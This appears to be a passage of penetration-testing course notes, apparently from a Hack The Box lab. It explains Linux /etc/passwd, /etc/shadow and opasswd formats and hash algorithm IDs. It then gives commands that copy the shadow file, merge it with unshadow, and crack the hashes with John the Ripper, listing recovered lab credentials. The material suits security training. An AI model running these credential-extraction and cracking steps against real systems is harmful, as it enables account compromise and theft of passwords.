root:x:0:0:root:/root:/bin/bash
```



| Field            | Value                  |
| ---------------- | ---------------------- |
| Username         | `root`                 |
| Password         | `x`                    |
| User-ID          | `0`                    |
| Group-ID         | `0`                    |
| GECOS            | `root`                 |
| Home Directory   | `/root`                |
| Default Shell    | `/bin/bash`            |

On modern systems, the password field typically contains an `x`, indicating that the actual password hash is stored in `/etc/shadow`.

**The /etc/shadow File**

The `/etc/shadow` file stores password hashes and aging information. Only users with administrative privileges can read this file.

Example:

```
htb-student:$y$j9T$...SNIP...pNbNkZKO:20485:0:99999:7:::
```

Each entry contains nine colon-separated fields:

| Field              | Value                         |
| ------------------ | ----------------------------- |
| Username           | `htb-student`                 |
| Password           | `$y$j9T$...SNIP...pNbNkZKO`   |
| Last Change        | `20485`                       |
| Min Age            | `0`                           |
| Max Age            | `99999`                       |
| Inactivity Period  | `-`                           |
| Expiration Date    | `-`                           |
| Reserved Field     | `-`                           |

Password hashes follow this structure:

```
$<id>$<salt>$<hash>
```

The `id` specifies the hashing algorithm:

| ID               | Hash Algorithm         |
| ---------------- | ---------------------- |
| `1`              | `MD5`                  |
| `2a`             | `Blowfish`             |
| `5`              | `SHA-256`              |
| `6`              | `SHA-512`              |
| `sha1`           | `SHA-1`                |
| `y`              | `Yescrypt`             |
| `gy`             | `Gost-yescrypt`        |
| `7`              | `Scrypt`               |

Many modern Linux distributions now use `Yescrypt` by default.

**The /etc/security/opasswd File**

PAM can prevent password reuse by storing previously used passwords in:

```
/etc/security/opasswd
```

Only privileged users can access this file:



Old passwords are typically stored as `MD5` hashes, making them significantly easier to crack than modern `Yescrypt` or `SHA-512` hashes.

**Cracking Linux Credentials**

With root access, password hashes can be extracted and cracked offline.

John The Ripper provides a utility called `unshadow`, which merges `/etc/passwd` and `/etc/shadow` into a crackable format:

```bash
sudo cp /etc/passwd /tmp/passwd 
sudo cp /etc/shadow /tmp/shadow 

unshadow /tmp/passwd /tmp/shadow > /tmp/unshadowed.hashes
```

**Single Crack Mode**

John’s single mode uses usernames, GECOS fields, and home directory names to generate candidate passwords:

```bash
john --single /tmp/unshadowed.hashes
```

Recovered credentials:

```
martin:Martin1
```



**Wordlist Attack**

Remaining hashes can be attacked using a dictionary:

```bash
john --wordlist=rockyou.txt /tmp/unshadowed.hashes
```

Recovered credentials:

```
sarah:mariposa
```



---

### Credential Hunting in Linux